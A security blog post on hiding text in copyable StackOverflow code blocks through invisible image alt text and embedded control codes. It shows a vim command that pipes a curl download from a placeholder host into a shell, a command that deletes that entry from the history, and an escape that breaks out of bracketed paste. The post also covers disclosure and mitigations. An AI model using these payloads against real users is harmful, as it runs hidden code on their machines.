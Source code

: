 ```yaml
---
last_modified_at: Tue, 7 Jan 2025 14:30:48 -0800  # 5d3af96 a-tagging-system
layout: post
title: Clipboard subversion on StackOverflow
tags: security hacking
---
```

Because Markdown is really a mixture of Markdown syntax and raw HTML to
fill in gaps where Markdown can't do the job, having user-generated
content in Markdown format doesn't help to curb malicious content.
Users are still publishing HTML and have opportunities to embed
something malicious or sneaky.

In the case of StackOverflow, you end up being able to do things like
switch to `<pre>` formatting without escaping all of the contained text
as raw code; so you can embed HTML in the blocks which look like the
code you would want to copy-paste, but with surprise semantics.

The obvious thing is to put some text in a block marked invisible, but
there are mitigations preventing that because that would be a sneaky
thing to do.  Instead you can embed images, and provide alt text for
those images, and you can make those images practically invisible,
and when people copy the text in that code block they'll also
pick up the alt text which they couldn't see on the web page.

Like so:
```markdown
Here is my solution:

<pre>my<img src="https://example.com/invisible_image.gif" alt=" malicious" /> code</pre>

It's really good!
```

You can go try things out in a [sandbox][].  Be warned that not
everything that appears in the preview window is going to turn out
exactly the same once you post it.

Imagine the possibilities!

And yes, I _have_ reported those possibilities which I could imagine to
Stack Exchange.  More on that later.

If you're clever then you might be able to drop in an extra character
somewhere which has a profound effect on the meaning of the code.

You can also emulate non-printing keystrokes by sending their escape
sequences or control codes.  This leads applications to take actions
based on those keystrokes rather than inserting them into an edit buffer
as plain old text.

What sort of keystrokes might you insert?  It depends on where you
expect that the text will be pasted.  Maybe a newline, to make a command
execute before the user is ready; and/or some backspaces to subtly
modify the text after it's been reviewed (replace an 8 with an &, for
example).

But those can be detected easily.  Something more nefarious would be to
target a text editor.  Let's take a crack at vim, for example.
To maximise the chances that the user will be using vim when they
paste your text try offering something to be pasted somewhere like
`~/.vimrc`.  If somebody wants to modify that file what editor do you
think they're going to use?  Typically not emacs.

So if you know you're in vim you could embed something like an escape
character, to enter command mode, and then some commands, like these
ones:

```vim
:call system('(curl -s https://example.com/evilcode|sh)&')
:call histdel('cmd','evilcode')
```

The first executes a shell to get curl to download some code and run it;
and it does so in the background rather than waiting for it to finish.
The second deletes every history entry containing `evilcode`, so it
deletes evidence of our malicious act and, conveniently, it deletes
itself as well.

After that drop back into insert mode and keep adding plausible text to
the file to clear the status line of the result of the last command.

Notice that these are both short commands which will almost certainly
fit on one line.  If they're longer then there's a much greater risk
that the drawing and redrawing of a multi-line command buffer will be
visible to the user, if only in a brief flash which might attract
unwanted attention.

And tere we go.  Running arbitrary code on a random SO user's computer,
and they can't see us doing it!  What fun!

Would I be telling you this if it was really so easy?  No.  OK, maybe.
But it's not.

To mitigate this the terminal and application or shell should be using
[bracketed paste][], which ensures that pasted text is surrounded by
delimiters which indicate that it shouldn't be interpreted as escape
sequences but raw text to be inserted into the file or whatever.

But those delimiters are what?  They're escape sequences.  So you just
put the end marker for bracketed paste into your text in order to make
everything after that be interpreted by the application as keyboard
input again -- just like before bracketed paste was a thing.

Like so:
```html
<img &hellip; alt="&#27;[201~ keyboard input here" />
```

Thankfully a lot of terminals (and after a few months of prodding developers, a few more terminals) strip out some control codes
from pasted text, and this breaks the ability to embed the codes
necessary to escape bracketed paste mode this way.

OSX's Terminal.app even brings up a message box explicitly telling you
you're under attack if it sees the relevant escape sequence.  I think
that's great.  Most other terminals just strip out control codes in some
way or other.

I can't promise that all terminals are filtering correctly, though.

But of course there's yet another potential weakness.  If you can get an
incomplete escape sequence sent then the application can be tricked into
_missing_ the begin-bracketed-paste escape sequence.  To illustrate this
you can simply hit Escape right before pasting something into the
terminal when it should be using bracketed paste.  The resulting
double-escape can cause the bracketed paste opening to be mis-parsed, so
everything that follows is still seen as keystrokes.  You might not be
able to send escapes, but you might still get backspace and newline
through.

To set up such preconditions might take a bit of network timing
manipulation, or remarkable knowledge of unfixed bugs in termcap
entries, or some kind of social engineering to exploit this, so maybe
we're all safe.

I can't promise that, though.

So you might be asking "where's the responsible disclosure?".  Well, I
went through it all years ago.  I tried to cut this off at StackOverflow
first (don't let people embed surprise text, don't let people embed
control codes in text), and then in the browser (don't copy control
codes embedded in HTML text), and then in some terminals (don't let
escape sequences escape the esape sequence that says to ignore other
escape sequences).  For the most part the issue was dismissed as
somebody else's problem, and everybody preferred to keep things as they
are rather than risk breaking some unspecified case which somebody might
be using legitimately.

The only people to take me seriously were Apple, and I got an SVE out of
it for my efforts.  That's probably because I gave them a whole proof of
concept which ran arbitrary code and made it invisible to the user that
arbitrary code had been run (except that I waved a flag to say it had
happened to prove it).

Of course there are still gaps that I see.  There will always be gaps
when systems we rely on are assembled the way they are.  There is a
_lot_ I do not agree with in the way things were designed, here.  The
intrinsic weakness of layers upon layers of escape sequences is absurd
to me, but it's also industry standard and an evergrowing problem as
people design more systems which function this way.  It's become
normalised and there's no stopping it anymore.

The other thing that frustrates me about reporting
vulnerabilities is when they're only superficially addressed.
Just enough to stop me digging any deeper.
When the front door is open you can make a case for security in depth
by pointing out consequential weaknesses behind the door and asking for them all
to be fixed, but too often the reaction is to just close the
door.  What happens when somebody else finds an open window?

Maybe by the time you read this the ability to embed image alt text will have been superficially addressed and you'll have to look for an open window.  Good luck!

[bracketed paste]: <https://en.wikipedia.org/wiki/Bracketed-paste>
[sandbox]: <https://meta.stackexchange.com/q/3122/227423>
[My PoC]: <https://security.stackexchange.com/a/183377>
